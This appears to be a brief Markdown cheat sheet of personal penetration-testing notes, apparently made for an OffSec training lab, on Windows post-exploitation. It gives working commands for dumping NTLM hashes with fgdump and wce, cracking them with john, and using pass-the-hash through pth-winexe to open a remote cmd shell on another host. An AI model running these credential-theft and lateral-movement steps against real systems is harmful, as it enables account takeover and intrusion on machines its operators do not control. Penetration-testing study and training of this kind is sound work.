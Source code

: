 # post exploitation windows
## Tools
### fgdump
Dumping system hashes. Copy the NTLM hashes, try to crack them or use them for pass-the-hash tools.

### wce (32/64/universal)
Windows Credentials Editor
`wce32.exe -h` `wce32.exe -w`. save the dump for future use with john-the-ripper or any 'pass-the-hash' tool.  

### john (the-ripper) dictionary brute force attack
Use the previous hash dump (hashesh.txt).
- offsec:500:NO PASSWORD*********************:8BCFF5D1004022E0C767CC00D3847A2B:::
- `john hashes.txt`

### pth (pass-the-hash suite)
Using hashes rather than clear text passwords.  
- command: `pth-...`
- Replace the "NO PASSWORD" string with one of the NTLM hashes.  
  - offsec:500:8BCFF5D1004022E0C767CC00D3847A2B:8BCFF5D1004022E0C767CC00D3847A2B:::
- copy the 'administrator' (offsec) dump hash.
  - `8BCFF5D1004022E0C767CC00D3847A2B:8BCFF5D1004022E0C767CC00D3847A2B`
- export the hash into the hash variable `SMBHASH`
  - `export SMBHASh=8BCFF5D1004022E0C767CC00D3847A2B:8BCFF5D1004022E0C767CC00D3847A2B`
- invoke `pth-winexe` on the remote host that holds the mentioned hash.
  - `pth-winexe -U offsec% //192.168.31.233 cmd`

